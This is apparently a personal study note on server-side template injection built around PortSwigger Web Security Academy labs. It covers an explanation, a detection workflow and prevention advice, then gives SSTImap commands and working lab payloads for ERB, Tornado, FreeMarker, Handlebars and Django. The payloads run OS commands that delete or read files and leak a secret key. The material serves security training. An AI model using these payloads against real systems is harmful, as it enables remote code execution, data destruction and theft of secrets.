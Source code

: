 ```yaml
---
tags:
  - web-app-security
---
```

[Server-side template injection | Web Security Academy](https://portswigger.net/web-security/server-side-template-injection)

- ****What is server-side template injection?****
    
    Server-side template injection is when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side.
    
    Template engines are designed to generate web pages by combining fixed templates with volatile data. Server-side template injection attacks can occur when user input is concatenated directly into a template, rather than passed in as data. This allows attackers to inject arbitrary template directives in order to manipulate the template engine, often enabling them to take complete control of the server. As the name suggests, server-side template injection payloads are delivered and evaluated server-side, potentially making them much more dangerous than a typical client-side template injection.
    
- ****What is the impact of server-side template injection?****
    
    Server-side template injection vulnerabilities arise when user input is concatenated into templates rather than being passed in as data.
    
    Static templates that simply provide placeholders into which dynamic content is rendered are generally not vulnerable to server-side template injection. The classic example is an email that greets each user by their name, such as the following extract from a Twig template:
    
    ```
    $output = $twig->render("Dear {first_name},", array("first_name" => $user.first_name) );
    ```
    
    This is not vulnerable to server-side template injection because the user's first name is merely passed into the template as data.
    
    However, as templates are simply strings, web developers sometimes directly concatenate user input into templates prior to rendering. Let's take a similar example to the one above, but this time, users are able to customize parts of the email before it is sent. For example, they might be able to choose the name that is used:
    
    ```
    $output = $twig->render("Dear " . $_GET['name']);
    ```
    
    In this example, instead of a static value being passed into the template, part of the template itself is being dynamically generated using the `GET` parameter `name`. As template syntax is evaluated server-side, this potentially allows an attacker to place a server-side template injection payload inside the `name` parameter as follows:
    
    ```
    <http://vulnerable-website.com/?name={{bad-stuff-here}>}
    ```
    
    Vulnerabilities like this are sometimes caused by accident due to poor template design by people unfamiliar with the security implications. Like in the example above, you may see different components, some of which contain user input, concatenated and embedded into a template. In some ways, this is similar to [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerabilities occurring in poorly written prepared statements.
    
    However, sometimes this behavior is actually implemented intentionally. For example, some websites deliberately allow certain privileged users, such as content editors, to edit or submit custom templates by design. This clearly poses a huge security risk if an attacker is able to compromise an account with such privileges.
    
- W**ork flow**
    
    ![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/29ca1d59-f65b-458e-87af-7256836e7162/Untitled.png)
    
    ****Detect****
    
    try fuzzing the template by injecting a sequence of special characters commonly used in template expressions, such as `${{<%[%'"}}%\\`
    
    ****Identify****
    
    ![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/1f30bf8a-bf14-4d1e-9fb0-14f3e00cdadf/Untitled.png)
    
    ****Exploit****
    
    [https://portswigger.net/web-security/server-side-template-injection/exploiting](https://portswigger.net/web-security/server-side-template-injection/exploiting)
    
- ****How to prevent server-side template injection vulnerabilities****
    
    The best way to prevent server-side template injection is to not allow any users to modify or submit new templates. However, this is sometimes unavoidable due to business requirements.
    
    One of the simplest ways to avoid introducing server-side template injection vulnerabilities is to always use a "logic-less" template engine, such as Mustache, unless absolutely necessary. Separating the logic from presentation as much as possible can greatly reduce your exposure to the most dangerous template-based attacks.
    
    Another measure is to only execute users' code in a sandboxed environment where potentially dangerous modules and functions have been removed altogether. Unfortunately, sandboxing untrusted code is inherently difficult and prone to bypasses.
    
    Finally, another complementary approach is to accept that arbitrary code execution is all but inevitable and apply your own sandboxing by deploying your template environment in a locked-down Docker container, for example
    
- **SSTI Identified Using `SSTImap`**
    
    > SSTI can be identified using the tool `SSTImap`. The limitations of this tool is that the template expression `{{7*7}}` results are sometimes only evaluated by another `GET request` or calling another function in the application, as the output is not directly reflected or echoed into the response where the template expression was posted.
    
    ```xml
    python /opt/SSTImap/sstimap.py --engine erb -u <https://TARGET.net/?message=Unfortunately%20this%20product%20is%20out%20of%20stock> --os-cmd "cat /home/carlos/secret"
    ```
    
    > POST request with the data `param` to test and send payload using `SSTImap` tool.
    
    ```xml
    python /opt/SSTImap/sstimap.py -u <https://TARGET.net/product/template?productId=1> --cookie 'session=StolenUserCookie' --method POST --marker fuzzer --data 'csrf=ValidCSRFToken&template=fuzzer&template-action=preview' --engine Freemarker --os-cmd 'cat /home/carlos/secret'
    ```
    
    ![https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/raw/main/images/sstimap.png](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/raw/main/images/sstimap.png)
    
- **SSTI payloads to manually identify vulnerability. →** [Security-Hub/ssti.txt at main · M8SZT8/Security-Hub (github.com)](https://github.com/M8SZT8/Security-Hub/blob/main/Fuzzing%20Lists/ssti.txt)
    
    ```xml
    ${{<%[%'"}}%\\.,
    }}{{7*7}} 
    
    {{fuzzer}}
    ${fuzzer}
    ${{fuzzer}}
    
    ${7*7}
    <%= 7*7 %>
    ${{7*7}}
    #{7*7}
    ${foobar}
    
    {% debug %}
    ```
    
- **Exploit**
    
    - **Construct a payload to delete Carlos's file**
        
        `<%= system("rm /home/carlos/morale.txt") %>`
        
    - **[Basic server-side template injection (code context)](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic-code-context)**
        
        ```xml
        blog-post-author-display=user.name}}{%25+import+os+%25}{{os.system('rm%20/home/carlos/morale.txt')
        ```
        
    - **[Server-side template injection using documentation](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-using-documentation)**
        
        ```xml
        <#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("rm /home/carlos/morale.txt") }
        ```
        
    - **[Server-side template injection in an unknown language with a documented exploit](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-in-an-unknown-language-with-a-documented-exploit)**
        
        ```xml
        <https://YOUR-LAB-ID.web-security-academy.net/?message=wrtz%7b%7b%23%77%69%74%68%20%22%73%22%20%61%73%20%7c%73%74%72%69%6e%67%7c%7d%7d%0d%0a%20%20%7b%7b%23%77%69%74%68%20%22%65%22%7d%7d%0d%0a%20%20%20%20%7b%7b%23%77%69%74%68%20%73%70%6c%69%74%20%61%73%20%7c%63%6f%6e%73%6c%69%73%74%7c%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%28%6c%6f%6f%6b%75%70%20%73%74%72%69%6e%67%2e%73%75%62%20%22%63%6f%6e%73%74%72%75%63%74%6f%72%22%29%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%73%74%72%69%6e%67%2e%73%70%6c%69%74%20%61%73%20%7c%63%6f%64%65%6c%69%73%74%7c%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%22%72%65%74%75%72%6e%20%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%72%6d%20%2f%68%6f%6d%65%2f%63%61%72%6c%6f%73%2f%6d%6f%72%61%6c%65%2e%74%78%74%27%29%3b%22%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%23%65%61%63%68%20%63%6f%6e%73%6c%69%73%74%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%28%73%74%72%69%6e%67%2e%73%75%62%2e%61%70%70%6c%79%20%30%20%63%6f%64%65%6c%69%73%74%29%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%2f%65%61%63%68%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%7b%7b%2f%77%69%74%68%7d%7d>
        ```
        
    - **[Server-side template injection with information disclosure via user-supplied objects](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-with-information-disclosure-via-user-supplied-objects)**
        
        ```xml
        {% debug %}
        {{settings.SECRET_KEY}}
        ```
-  Exploit 
- ssti to rce
https://medium.com/r3d-buck3t/rce-with-server-side-template-injection-b9c5959ad31e
